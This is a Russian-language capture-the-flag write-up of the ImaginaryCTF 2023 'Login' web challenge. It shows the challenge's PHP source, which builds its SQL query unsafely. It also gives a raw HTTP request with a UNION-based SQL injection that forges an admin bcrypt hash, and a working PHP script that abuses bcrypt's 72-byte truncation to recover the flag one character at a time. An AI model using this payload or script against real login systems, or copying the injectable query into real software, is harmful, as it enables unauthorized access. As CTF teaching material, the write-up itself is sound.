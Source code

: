 ## ImaginaryCTF 2023 | Web | Login

1. сунул кавычку в поле ввода и получил ошибку
2. sqlmapом дампнул бд. там одна таблица `users` с двумя записями `admin` и `guest` и хэшами в формате `password_hash()`
3. сгенерил хэш из `123` и используя `sqli` вошел в систему под `admin`

```
POST / HTTP/1.1
Host: login.chal.imaginaryctf.org
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Connection: close
                             
username='+UNION+SELECT+'admin','$2y$10$y8lGakdsoJPKhHZDNCwYfOyG.2fdIjBO2sPMRpUWjNVMjwguhPqCi'--&password=123
```

получил такой ответ

```
...
Welcome admin! But there is no flag here :P<!-- magic: 688a35c685a7a654abc80f8e123ad9f0 --> 
...
```

я долго проебался пока мне не подсказали перейти на `/?source` 🗿

<details>
  <summary>сорцы</summary>

  ```php
<?php

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}

$flag = $_ENV['FLAG'] ?? 'jctf{test_flag}';
$magic = $_ENV['MAGIC'] ?? 'aabbccdd11223344';
$db = new SQLite3('/db.sqlite3');

$username = $_POST['username'] ?? '';
$password = $_POST['password'] ?? '';
$msg = '';

if (isset($_GET[$magic])) {
    $password .= $flag;
}

if ($username && $password) {
    $res = $db->querySingle("SELECT username, pwhash FROM users WHERE username = '$username'", true);
    if (!$res) {
        $msg = "Invalid username or password";
    } else if (password_verify($password, $res['pwhash'])) {
        $u = htmlentities($res['username']);
        $msg = "Welcome $u! But there is no flag here :P";
        if ($res['username'] === 'admin') {
            $msg .= "<!-- magic: $magic -->";
        }
    } else {
        $msg = "Invalid username or password";
    }
}
?>
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Login</title>
    <link type="text/css" rel="stylesheet" href="https://cdn.simplecss.org/simple.css" />
</head>

<body>
    <main>
        <h2>Login</h2>
        <form method="POST">
            <p>
                <label for="username">Username</label>
                <input type="text" name="username" placeholder="Username" />
            </p>
            <p>
                <label for="password">Password</label>
                <input type="password" name="password" placeholder="Password" />
            </p>
            <p>
                <button type="submit">Login</button>
            </p>
        </form>
        <p>
            <?= $msg ?>
        </p>
    </main>
</body>

</html>
<!-- /?source -->
```
</details>


с сорцами все встало на свои места. получается, если гет параметр имеет значение `magic`, тогда `flag` конкатенируется с `password`. Хм 🤔.
Единственное место, где `password` еще используется, это функция `password_verify()`. я зашел в [доку пыхи](https://www.php.net/manual/en/function.password-hash.php) и обнаружил странную хрень

> **Предостережение** Использование алгоритма **PASSWORD_BCRYPT** приведёт к обрезанию поля password до максимальной длины 72 байта.

теперь вектор понятен. поскольку мы знаем об ограничении длины, мы можем хэшировать паддинг, оставляя место для флага, и угадывать посимвольно. Я написал простой скрипт на пыхе, который достал мне флаг:

```php
<?php

$charlist = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '_', '!', '?', '{', '}'];

$url = 'http://login.chal.imaginaryctf.org/?688a35c685a7a654abc80f8e123ad9f0';

$flag = 'ictf{';
echo "\n\n\n";
while ($flag[strlen($flag) - 1] != '}') {
  $padding = str_repeat("%", 71 - strlen($flag));
  for($i = 0; $i < count($charlist); ++$i) {
          $pass = "$padding$flag$charlist[$i]";
          $hash = password_hash($pass, PASSWORD_BCRYPT);
  
          $result = file_get_contents($url, false, stream_context_create([
            'http' => [
                'method' => 'POST',
                'header'  => "Content-type: application/x-www-form-urlencoded",
                'content' => "username='+UNION+SELECT+'admin','$hash'--&password=$padding",
            ]
          ]));

          if (str_contains($result, 'magic: 688a35c685a7a654abc80f8e123ad9f0')) {
            $flag .= $charlist[$i];
            echo $flag . "\r"; 
            break;
          }
  }
}

?>
```


https://github.com/kar9eo/wr/assets/138859197/e4b6c2e5-ff3e-4e20-82b0-a072c1ce1860

